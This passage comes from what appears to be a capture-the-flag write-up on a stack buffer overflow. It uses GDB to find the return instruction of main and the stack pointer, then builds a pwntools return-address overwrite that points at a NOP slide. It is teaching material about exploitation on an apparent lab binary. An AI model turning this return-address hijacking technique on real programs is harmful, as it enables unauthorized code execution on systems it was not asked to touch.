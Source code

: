 ### Step 1 - Find stack address

I want to make sure I have the stack address at the point where the main function would return.

We can do that by first adding a breakpoint at the return instruction of `main()` in GDB.

To see the addresses of the instructions we can disassemble the function:

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004005a4 <+0>:	push   rbp
   0x00000000004005a5 <+1>:	mov    rbp,rsp
   0x00000000004005a8 <+4>:	sub    rsp,0x10
   0x00000000004005ac <+8>:	mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005af <+11>:	mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005b3 <+15>:	mov    edi,0x400620
   0x00000000004005b8 <+20>:	call   0x400400 <puts@plt>
   0x00000000004005bd <+25>:	mov    eax,0x0
   0x00000000004005c2 <+30>:	call   0x40058d <start_level>
   0x00000000004005c7 <+35>:	mov    eax,0x0
   0x00000000004005cc <+40>:	leave
   0x00000000004005cd <+41>:	ret
End of assembler dump.
gef➤  b *0x4005cd
Breakpoint 1 at 0x4005cd
gef➤
```

The address we are interested in is the last one (`ret`) which is `0x4005cd` we don't need to grab the extra 0s because pwntools knows it is a 64-bit program and will treat it accordingly.

Now we run program normally with normal input and it stops at the breakpoint. 

From here we use `info registers` to look at the registers

```bash
gef➤  info registers
...
...
rsp            0x7fffffffebe8      0x7fffffffebe8
...
...
gef➤
```

This address is the stack address. We can now update that in the exploit.

```python
rip = p64(0x7fffffffebe8 + 40) # new rip -> rsp
```

> Notice I am also adding `+ 40` to the address just to make sure we hit our nop slide.

### Step 2 - nop slide

This part is pretty simple. The opcode of a nop instruction is 0x90. We use that as a raw byte in the code as `\x90`
